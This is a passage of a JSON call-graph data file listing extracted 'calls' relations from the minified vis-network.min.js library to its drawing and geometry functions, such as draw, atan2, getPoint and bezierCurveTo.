"source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getViaNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawDashedLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_drawLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_circle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setLineDash"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_circle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setLineDash"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_circle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "enableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "disableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_findBorderPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_findBorderPositionCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_findBorderPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_findBorderPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_findBorderPositionCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_findBorderPositionCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_pointOnCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createLinearGradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "addColorStop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "addColorStop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "enableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_findBorderPositionCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_findBorderPositionCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "disableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getDistanceToEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_findBorderPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_findBorderPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_findBorderPositionCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_findBorderPositionCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_pointOnCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "enableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "disableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setStrokeDashed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setStrokeDashed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setLineDash"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setLineDash"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getViaCoordinates"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getDistanceToLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bezierCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "quadraticCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "drawBackground"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "enableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "disableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getViaCoordinates"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "positionBezierNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setupSupportNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "positionBezierNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "createNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "positionBezierNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_bezierCurve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getCircleData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_findBorderPositionBezier"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getDistanceToBezierEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_bezierCurve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getViaCoordinates"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_findBorderPositionBezier"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getViaCoordinates"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getDistanceToBezierEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getViaCoordinates"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getDistanceToLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_bezierCurve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getViaCoordinates"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_findBorderPositionBezier"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getViaCoordinates"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getDistanceToBezierEdge2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getViaCoordinates"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "enableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "disableShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "distanceToBorder"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getDistanceToLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "parseOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateLabelModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateEdgeType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_setInteractionWidths"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "chooser"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cleanup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "attachEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "attachEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "detachEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "detachEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "detachEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "detachEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "customScalingFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_setInteractionWidths"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "updateLabelModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "hoverWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "selectionWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getFormattingValues"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getViaNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "drawLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "drawLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getFormattingValues"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getViaNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getArrowData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "load"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getArrowData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "load"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getArrowData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "load"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "drawArrowHead"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "drawArrowHead"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "drawArrowHead"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getTextSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getRotation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rotate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_pointOnCircle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "_getRotation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "isOverlappingWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getDistanceToEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getViaNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "calculateLabelSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cleanup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "cleanup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "bindEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "reconnectEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network.min.js", "target": "call"}, {"confidence": "EXTRACTED", 